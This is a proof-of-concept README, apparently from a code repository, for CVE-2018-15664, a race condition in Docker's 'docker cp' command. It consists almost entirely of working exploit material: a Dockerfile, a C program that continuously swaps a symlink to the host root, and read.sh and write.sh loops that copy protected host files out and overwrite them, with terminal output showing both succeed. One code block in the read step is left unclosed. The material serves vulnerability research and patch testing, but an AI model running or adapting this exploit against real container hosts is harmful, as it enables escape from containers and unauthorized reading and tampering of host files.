 ## Proof of Concept Docker-Race-Condition-Vulnerability

To perform the Proof of Concept for CVE-2018-15664, please follow the below steps:

This is an attack that exploits the `docker cp` command

1. Setup the following `Dockerfile`<br />

    ```Dockerfile
    FROM ubuntu:20.04
    RUN apt-get update && apt-get install -y gcc
    COPY symlink_swap.c /symlink_swap.c
    RUN gcc -o /symlink_swap /symlink_swap.c
    ENTRYPOINT ["/symlink_swap"]
    ```
2. Create the file `symlink_swap.c` in the host as follows: <br />
    ```c
    #define _GNU_SOURCE
    #include <unistd.h>
    #include <sys/stat.h>
    #include <stdio.h>
    #include <fcntl.h>

    int main()
    {
      symlink("/", "/totally_safe_path");
      mkdir("/totally_safe_path-stashed", 0755);

      while (1)
        renameat2(AT_FDCWD, "/totally_safe_path", AT_FDCWD, "/totally_safe_path-stashed", RENAME_EXCHANGE);

      return 0;
    }
    ```
3. Perform a read exploit (**Arbitrary read**)  <br />
    - Setup flags and revoke read permissions

        ```
        $ echo "SUCCESS -- COPIED FROM THE HOST" | sudo tee /w00t_w00t_im_a_flag
        SUCCESS -- COPIED FROM THE HOST
        $ cat /w00t_w00t_im_a_flag
        SUCCESS -- COPIED FROM THE HOST
        $ sudo chmod 000 /w00t_w00t_im_a_flag
        $ cat /w00t_w00t_im_a_flag
        cat: /w00t_w00t_im_a_flag: Permission denied
        ```
    - Use the following script named `read.sh` to perform arbitrary reads:

        ```bash
        #!/bin/sh

        # Build and run the image.
        docker build -t poc .
        container_id=$(docker run --rm -d poc)

        # Now continually try to copy the files.
        i=0
        while [ $i -lt 500 ]
        do
          mkdir "ex${i}"
          docker cp "${container_id}:/totally_safe_path/w00t_w00t_im_a_flag" "ex${i}/out"
          i=$(($i + 1))
        done
        chmod 0644 ex*/out
    - Run the `read.sh` and check arbitrary reads

        ```sh
        $ ./read.sh  # Exploit (Performs 500 reads will take time)
        $ grep 'SUCCESS' ex*/out | wc -l

4. Perform a write exploit (**Arbitrary write**)
    - Setup flags and revoke write permissions

      ```
      $ echo "FAILED -- HOST FILE UNCHANGED" | sudo tee /w00t_w00t_im_a_flag
      FAILED -- HOST FILE UNCHANGED
      $ sudo chmod 0444 /w00t_w00t_im_a_flag
      $ echo "SUCCESS -- HOST FILE CHANGED" > /w00t_w00t_im_a_flag 
      bash: /w00t_w00t_im_a_flag: Permission denied
      ```
    - Use the following script named `write.sh` to perform arbitrary writes:
 
      ```bash
      #!/bin/sh

      # Build and run the image.
      docker build -t poc .
      container_id=$(docker run --rm -d poc)

      echo "SUCCESS -- HOST FILE CHANGED" > localpath

      # Now continually try to copy the files.
      i=0
      while [ $i -lt 500 ]
      do
        docker cp localpath "${container_id}:/totally_safe_path/w00t_w00t_im_a_flag"
        i=$(($i + 1))
      done
      ```
    - Run the `write.sh` to perform arbitrary writes:

      ```
      $ cat /w00t_w00t_im_a_flag
      FAILED -- HOST FILE UNCHANGED
      $ echo "SUCCESS -- HOST FILE CHANGED" > /w00t_w00t_im_a_flag
      bash: /w00t_w00t_im_a_flag: Permission denied
      $ ./write.sh  # Exploit (will take some time)
      $ cat /w00t_w00t_im_a_flag
      SUCCESS -- HOST FILE CHANGED
      ```
